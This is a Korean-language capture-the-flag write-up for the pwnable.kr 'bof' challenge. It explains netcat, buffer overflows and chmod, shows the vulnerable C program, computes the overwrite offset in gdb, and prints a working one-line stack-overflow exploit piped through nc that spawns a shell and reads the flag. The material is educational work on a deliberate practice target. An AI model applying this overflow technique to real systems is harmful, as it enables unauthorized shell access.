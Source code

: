 ## 3. bof

`nc pwnable.kr 9000`

### nc(netcat)

[출처1](http://htst.tistory.com/61) [출처2](https://www.itlkorea.kr/data/netcat-pocket-guide1.0.pdf)

넷캣(NetCat, nc)은 TCP나 UDP 프로토콜을 사용하는 네트워크 연결에서 데이터를 읽고 쓰는 간단한 유틸리티 프로그램이다. 일반적으로는 UNIX의 cat과 비슷한 사용법을 가지고 있지만 cat이 파일에 쓰거나 읽듯이 nc는network connection에 읽거나 쓴다. 이것은 스크립트와 병용하여 network에 대한 debugging, testing tool로써 매우 편리하지만 반면 해킹에도 이용범위가 넓다.

nc 명령어는 아래와 같은 형태로 이루어져있다.

```bash
nc [목표ip주소] [포트]
```

`목표ip주소`는 IP 주소 또는 도메인명으로 클라이언트 모드에서는 필수이며 서버 모드에서는 선택 사항이다.

### bof

[출처](http://cosyp.tistory.com/206)

버퍼(buffer)는 데이터가 저장되는 메모리 공간으로, 데이터가 지정된 버퍼 크기보다 커서 해당 메모리 공간을 벗어나는 것을 버퍼 오버플로우(buffer overflow, BOF)라고 한다. 프로그램에 버퍼 오버플로우 취약점이 있는 경우 이를 이용하여 시스템 권한을 상승시키거나 악성 행위를 할 수 있다.

### 디버깅하기

이 문제는 nc를 이용하여 답을 서버에 전달해야 하기 때문에 `ssh`를 이용하는 다른 문제 서버에서 디버깅한다. `collision` 문제의 서버에 접속한 후 `/tmp`에 임의의 폴더 를 만든다.

```bash
col@ubuntu:~$ mkdir /tmp/ming
```

 `scp`  명령어를 이용해 `bof`  파일을 복사해온다.

```bash
$ scp -P 2222 ./bof col@pwnable.kr:/tmp/ming
col@pwnable.kr's password: 
bof                                           100% 7348    69.8KB/s   00:00   
```

```bash
col@ubuntu:/tmp/ming$ ls
bof
```

#### bof.c

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

코드에서는 `key`  값이 `0xcafebabe`이면 쉘을 딸 수 있다. `gets`는 입력값의 범위를 제한하지 않으므로 `gets(overflowme)`를 이용해 `key`값을 변경할 수 있을 것이다.

#### gdb 이용하기

gdb를 이용하여 파일을 실행하기 위해 `chmod 777 bof`로 실행 권한을 준다. gdb를 이용하여 `disas func`명령어로 `func` 함수를 살펴보면 `overflowme`와 `key`의 메모리 주소를 알 수 있다.

```assembly
   0x00000649 <+29>:	lea    eax,[ebp-0x2c]
   0x0000064c <+32>:	mov    DWORD PTR [esp],eax
   0x0000064f <+35>:	call   0x650 <func+36>
   0x00000654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
```

#### payload

`ebp-0x2C`에 사용자 입력값을 저장한후 `ebp+0x8`에 저장된 값을 `0xcafebabe`와 비교한다. 따라서 두 주소의 차이만큼 데이터를 덮어주면 `key`값 즉, `[ebp+0x8]`을 원하는 값으로 변경할 수 있다.

```bash
0x2C + 0x08 = 52
```

따라서 payload는 다음과 같이 구성된다.

|  주소값 차이  |   원하는 값    |
| :------: | :--------: |
| "A" * 52 | 0xcafebabe |

#### exploit

파이썬을 이용하여 서버에 접속할 때 payload를 전달한다.

```bash
$ (python -c 'print "A"*52+"\xbe\xba\xfe\xca"';cat) | nc pwnable.kr 9000
```

위의 명령어를 입력하고 `ls`를 쳐보면 다음과 같이 존재하는 파일 목록을 볼 수 있다.

```bash
bof
bof.c
flag
log
log2
super.pl
```

`cat flag`를 쳐보면 flag 값이 나타난다.

```bash
cat flag
daddy, I just pwned a buFFer :)
```

### chmod

[출처](https://ko.wikipedia.org/wiki/Chmod)

chmod(**ch**ange **mod**e)는 유닉스에서 쓰이는 쉘 명령어로 파일이나 디렉토리들의 파일 시스템 모드를 바꾼다.

```bash
$ chmod [options] mode[,mode] file1 [file2 ...]
```

|  -   |   rwx   |   rwx    |   rwx    |
| :--: | :-----: | :------: | :------: |
| 파일권한 | user 권한 | group 권한 | other 권한 |

